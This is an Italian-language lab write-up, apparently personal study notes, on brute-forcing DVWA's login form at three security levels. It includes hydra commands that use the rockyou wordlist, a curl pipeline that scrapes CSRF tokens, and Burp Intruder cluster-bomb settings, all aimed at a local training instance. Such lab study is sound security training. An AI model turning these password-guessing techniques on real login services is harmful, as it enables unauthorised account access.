 ## Brute force

- https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)
- http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html


### Brute force - Low

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

	`$ hydra -l admin -P rockyou.txt 172.17.0.2 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=low"`

	parametri http-get-form: `"<RELATIVE PATH>:<PARAMETERS>:<FAILED LOGIN TEXT>:H=Cookie: <REQUEST COOKIES>"`

### Brute force - Medium

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

	`$ hydra -l admin -P rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=medium" -c 3 -t 1`

	dalla man page di hydra:

		```
		-c TIME
			the wait time in seconds per login attempt over all threads (-t 1 is recommended)
			This usually only makes sense if a low task number is used, .e.g -t 1
		-t TASKS
			run TASKS number of connects in parallel (default: 16)
		```

### Brute force - High

È necessario prima fare una GET, recuperare il CSRF token (`user_token`) e fare una seconda GET includendo il valore recuperato.

**curl**

- recupera un PHPSESSID valido (`$1`)

- lancia:

	- recupera il CSRF token

		`
			$ CSRF=$( \
				curl -s --cookie "PHPSESSID=$1; security=high" 'http://172.17.0.2/vulnerabilities/brute/' | \
				awk -F 'value=' '/user_token/ {print $2}' | \
				cut -d "'" -f2)
		`

	- usa il CSRF token per tentare un login

		`$ curl -b dvwa.cookie http://172.17.0.2/vulnerabilities/brute?username=admin&password=password&user_token=${CSRF}&Login=Login`

**BurpSuite**

Configura Burp

- imposta il proxy Burp sul browser
- esegui un tentativo di login

Imposta la Macro

- `Project Options` -> `Sessions` -> `Session Handling Rules` -> `Add`
- `Rule Description`: DVWA Brute High
- `Rule Action` -> `Add` -> `Run a macro`
- `Select macro` -> `Add`
- `Macro Recorder` -> scegli la richiesta tramite cui hai eseguito il tentativo di login -> `OK`
- `Macro description`: Get user_token
- `Configure item`
- `Custom parameters locations in response` -> `Add`
- `Parameter name`: user_token
- `Start after expression`: user_token' value='
- `End at delimiter`: ' />
- `Ok` -> `Ok` -> `Ok`
- abilita `Tolerate URL mismatch when matching parameters (use for URL-agnostic CSRF tokens)`
- `Ok`
- `Scope` -> `Tool Scope -> Only select: Intruder`
- `URL Scope` -> `Use Suite scope [defined in Target tab]`
- `Ok`
- `Target` -> `Site map` -> `<indirizzo IP DVWA>` -> Click destro: `Add to scope`

Prepara l'Intruder

- `Proxy` -> `HTTP History` -> trova la richiesta tramite cui hai eseguito il tentativo di login
- Click destro -> `Send to Intruder`
- `Intruder` -> `2` -> `Positions`
- `Attack type`: `Cluster bomb`
- `Clear §`
- Seleziona il valore dell'username nella query string -> `Add §`
- Seleziona il valore della password nella query string -> `Add §`
- `Intruder` -> `2` -> `Payloads`

- `Payload Sets` -> `Payload Sets`: `1` -> `Payload type`: `Simple list`
- `Payload Options [Simple list]` -> `Add` : `admin` -> `Add`
- `Payload Sets` -> `Payload Sets`: `2` -> `Payload type`: `Simple list`
- `Payload Options [Simple list]` -> `Load ...` : scegli wordlist di password
- `Intruder` -> `2` -> `Options`
- `Attack Results` -> disabilita `Make unmodified baseline request`
- `Grep` - `Extract` -> `Add`
- Start after expression: `<pre><br />`
- End at delimiter: `</pre>`
- `Ok`
- `Intruder` -> `Target` -> `Start attack`

\#FIXME: dopo la prima richiesta, Burp non estrae l'user_token e non lo inserisce nella richiesta successiva

